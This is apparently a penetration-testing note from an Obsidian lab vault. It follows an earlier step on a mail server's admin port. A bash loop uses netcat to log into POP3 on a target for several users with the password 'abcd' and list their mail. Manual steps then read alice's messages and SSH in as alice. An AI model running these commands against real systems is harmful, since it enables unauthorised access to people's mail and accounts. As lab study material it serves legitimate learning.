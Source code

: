 ```yaml
---
category: Uncategorized
tags: [pentest]
created: 2024-12-21

---
```

Continuing from [[Port 4555 - James]]

#### POP3.sh

---
```bash - kali
for user in alice bob carlos david earl frank; do

 (echo USER ${user}; sleep 2s; echo PASS abcd; sleep 2s; echo LIST; sleep 2s; echo quit) | nc -nvC $TARGET 110; done
```

```bash - kali
chmod +x pop3.sh
```

```bash - kali
./pop3.sh
```

---

If script above does not work, do manually:

We see alice has 2 messages.

```bash - kali
nc -nvC $TARGET 110
```

```bash - kali
USER alice
```

```bash - kali
PASS abcd
```

```bash - kali
RETR 1
```

```bash - kali
RETR 2
```

```bash - kali
ssh alice@$TARGET
```


Last updated: `$= dv.current().file.mtime.toFormat("MMMM dd, yyyy 'at' HH:mm")`
